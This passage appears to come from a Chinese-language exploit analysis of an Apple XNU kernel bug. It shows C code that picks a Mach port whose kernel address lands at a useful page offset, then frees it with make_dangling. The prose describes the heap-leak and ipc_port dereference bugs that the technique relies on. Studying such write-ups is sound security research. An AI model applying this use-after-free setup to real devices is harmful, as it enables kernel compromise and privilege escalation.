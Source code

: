 ```C
  for (int i = 0; i < ports_to_test; i++) {
    mach_port_t candidate_port = pre_ports[base+i];
    uint64_t candidate_address = find_port_address(candidate_port, MACH_MSG_TYPE_MAKE_SEND);
    uint64_t page_offset = candidate_address & 0xfff;
    if (page_offset > 0xa00 && page_offset < 0xe80) { // this range could be wider but there's no need
      printf("found target port with suitable allocation page offset: 0x%016llx\n", candidate_address);
      pre_ports[base+i] = MACH_PORT_NULL;
      first_port = candidate_port;
      first_port_address = candidate_address;
      break;
    }
  }
```
至于如何获得ipc_port的内核地址，作者这里使用的是heap泄漏的漏洞，用ool_ports的方法找到指定的port内核地址，具体可以参考函数`find_port_address`。  
![target_ipc_port_page](/images/res/target_ipc_port_page.png)  

接下来使用前面提到的ipc_port deference漏洞将找到的ipc_port释放，即make_dangling  
```C
make_dangling(first_port);
```